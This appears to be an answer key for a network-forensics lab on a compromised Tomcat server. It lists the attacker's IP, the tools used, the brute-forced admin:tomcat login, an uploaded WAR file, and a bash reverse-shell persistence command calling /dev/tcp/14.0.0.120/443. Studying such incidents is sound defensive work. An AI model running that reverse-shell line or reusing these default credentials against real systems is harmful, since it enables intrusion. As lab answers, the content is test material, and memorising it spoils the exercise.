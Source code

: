 # Here are the answers for lab questions!

## Questions and Answers

### Q1
Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

**Answer:** `14.0.0.120`

### Q2
Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?

**Answer:** `Guangzhou`

### Q3
From the pcap analysis, multiple open ports were detected as a result of the attacker's activity scan. Which of these ports provides access to the web server admin panel?

**Answer:** `8080`

### Q4
Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

**Answer:** `gobuster`

### Q5
Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

**Answer:** `/manager`

### Q6
Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?

**Answer:** `admin:tomcat`

### Q7
Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

**Answer:** `JXQOZY.war`

### Q8
Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

**Answer:** `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
